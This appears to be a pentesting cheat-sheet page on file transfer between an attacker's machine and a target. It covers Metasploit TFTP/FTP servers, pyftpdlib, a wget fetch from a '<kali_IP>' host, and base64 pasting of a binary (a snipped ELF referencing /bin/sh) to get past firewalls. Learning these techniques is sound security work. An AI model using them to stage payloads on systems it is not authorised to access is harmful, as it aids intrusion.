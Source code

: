 ```yaml
---
layout: default
title: Other Transfer
permalink: /other_transfer/
---
```


## TFTP

TFTP (Trivial File Transfer Protocol)	TFTP uses UDP for simple file transfers, commonly used by older Windows systems and others.

Use metaspoit framework:
```
use auxiliary/server/tftp
set srvhost 192.168.31.141
set tftproot /root/raj
run
```

```
tftp -i 192.168.31.219 GET ignite.txt
dir
```

## FTP

Use metasploit framework:
```
msfconsole -q
use auxiliary/server/ftp
set srvhost 192.168.31.141
set ftproot /root/raj
set ftpuser raj
set ftppass 123
run
```

```
ftp 192.168.31.141
dir
get ignite.txt
```
```
ftp ftp://$ftpuser:$password@localhost
```

```
python3 -m pyftpdlib -w -p 21 -u ignite -P 123
```

```
ftp 192.168.31.141
get ignite.txt
put C:\Users\raj\avni.txt
```

or:
`wget ftp://<kali_IP>:<Port_number>/<file> (-O /path/to/dir/<file>)`


# Using Base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it.

```
base64 binary_file -w 0
```
Then:
```
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > file
```
# Validating
```
md5sum file
```

